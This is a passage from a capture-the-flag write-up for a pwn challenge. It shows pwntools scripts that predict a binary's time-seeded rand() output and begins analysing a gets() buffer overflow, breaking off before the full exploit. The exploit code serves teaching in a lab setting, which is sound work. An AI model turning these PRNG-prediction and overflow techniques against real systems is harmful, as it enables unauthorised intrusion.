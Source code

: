 Okay, first thing first. Let's try and create a simple generate function that
will actually allow us to guess the random numbers being generated by our
program. For that, we'll use the following code

```py  
from pwn import *  
from ctypes import *

libc = cdll.LoadLibrary('/usr/lib/x86_64-linux-gnu/libc.so')  
_time = libc.time(0x0)  
libc.srand(_time)

guess = libc.rand()  
```

This will allow us to generate a random number. Now, let's try and connect to
the local binary, send `1` as input and then match if our script and the
number provided match.

```py  
from pwn import *  
from ctypes import *

# Setting the binary context:  
elf = context.binary = ELF('./chal')  
io  = process()

libc = cdll.LoadLibrary(elf.libc.path)  
_time = libc.time(0x0)  
libc.srand(_time)

guess = libc.rand()

io.sendlineafter(b'Exit\n', b'1')  
random = io.recvuntil(b'\n')[:-1].decode()

info(f"We guessed       : {guess}")  
info(f"Program generated: {random}")  
```

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Frntk-2.png&w=1080&q=75)

Now, we have successfully generated the random number. Now, we need to
understand how we're going to overflow the buffer. Looking at these two lines
of code:

```c  
gets(buffer);  
strL = strtol(buffer,(char **)0x0,10);  
```

The first line, uses `gets` function, which is a vulnerable function. However,
the next line uses `strol` which basically converts a string to long.

```c  
rnd = rand();  
if (iStrL == rnd)  
```
